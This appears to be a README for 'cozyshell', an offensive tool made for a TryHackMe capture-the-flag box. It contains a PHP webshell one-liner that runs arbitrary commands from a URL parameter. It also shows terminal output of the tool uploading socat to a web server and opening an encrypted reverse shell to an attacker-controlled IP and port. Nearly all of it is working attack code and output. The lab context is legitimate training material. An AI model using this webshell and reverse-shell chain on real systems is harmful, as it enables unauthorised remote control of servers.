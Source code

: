 
$_COZYSHELL

  **Developed for the 'year of the dog' THM box, use it with caution and responsability**

- First we need to upload a webshell like the one bellow.
```php
  <?php echo shell_exec($_GET["cmd"]); ?>
```
```txt
┌──(root㉿kali)-[~/cozyshell]
└─# ../t.py -u http://10.10.44.102/
[*] Injecting webshell at http://10.10.44.102/cae822a9.php
[*] Success! We got a webshell as www-data
```
---
- Now we can quickly upgraded to a nice and cozy interactive shell
```
┌──(root㉿kali)-[~/cozyshell]
└─# ./cozyshell --url http://10.10.44.102/cae822a9.php --lhost 10.13.21.200 --lport 8443 
[*] Uploading socat binary to /var/www/html/c233735f
[*] Starting Webserver
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.44.102 - - [06/Jan/2024 18:56:53] "GET /bin HTTP/1.1" 200 -
[*] Finished uploading socat!
[*] Killing Webserver process
[*] Starting reverse shell handler on tty /dev/pts/1
[*] Paste CMD: export TERM=screen; stty rows 59 cols 116
[*] Sending encrypted reverse shell to 10.13.21.200:8443
<www/html$ export TERM=screen; stty rows 59 cols 116
www-data@year-of-the-dog:/var/www/html$ pwd
/var/www/html
www-data@year-of-the-dog:/var/www/html$ ls
assets	c233735f  cae822a9.php	config.php  index.php
www-data@year-of-the-dog:/var/www/html$ exit
exit
[*] Finished executing interactive shell
[*] Success
```

